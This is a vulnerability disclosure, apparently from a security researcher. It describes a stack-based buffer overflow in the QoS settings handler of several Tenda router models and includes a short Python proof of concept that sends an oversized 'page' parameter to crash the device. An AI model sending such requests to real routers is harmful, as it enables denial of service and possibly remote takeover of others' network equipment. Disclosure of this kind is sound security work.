 # Tenda Router Vulnerability on fromqossetting function

This vulnerability lies in the `/goform/fromqossetting` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence PA202,PW201A,4G300

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromqossetting` it reads 1 user provided parameters `page` into `v4`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v7`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromqossetting`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromqossetting?"
url += "page=" + "s" * 0x200
url += "&op=no&qos=0"


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge